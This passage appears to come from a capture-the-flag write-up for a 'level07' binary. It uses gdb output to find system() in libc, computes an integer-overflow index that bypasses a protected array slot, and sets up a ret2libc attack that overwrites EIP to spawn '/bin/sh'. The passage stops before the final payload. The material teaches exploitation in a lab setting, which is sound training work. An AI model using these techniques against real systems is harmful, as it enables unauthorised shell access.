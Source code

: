     (gdb) info function system
    All functions matching regular expression "system":

    Non-debugging symbols:
    0xf7e6aed0  __libc_system
    0xf7e6aed0  system
    0xf7f48a50  svcerr_systemerr

The address of `system()` is `0xf7e6aed0`

BUT... the index 114 is protected. We need to bypass it for write at this index. We can do it with the int overflow

To get 114 by the overflow : (UINT_MAX / 4) + 114

    ( 4294967296 / 4 ) + 114 ) = 1073741938

    1073741938 % 3 = 1

Try it!

    Input command: store
    Number: 42
    Index: 1073741938
    Completed store command successfully

    Input command: read
    Index: 114
    Number at data[114] is 42
    Completed read command successfully

Good, we can write at the index 114 with the number `1073741938`

We know how to overwrite EIP with the address of the system function. Now, we need to put the argument for system : "/bin/sh". The argument will be at index of EIP + 2 to do a ret2libc (system + ret + arg). The index 116 is writable, we just need to find the string in the memory

    (gdb) info proc map
    process 1989
    Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
        0x8048000  0x8049000     0x1000        0x0 /home/users/level07/level07
        0x8049000  0x804a000     0x1000     0x1000 /home/users/level07/level07
        0x804a000  0x804b000     0x1000     0x2000 /home/users/level07/level07
        0xf7e2b000 0xf7e2c000     0x1000        0x0 
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
        0xf7fd0000 0xf7fd4000     0x4000        0x0 
        0xf7fda000 0xf7fdb000     0x1000        0x0 
        0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
        0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
        0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
        0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]
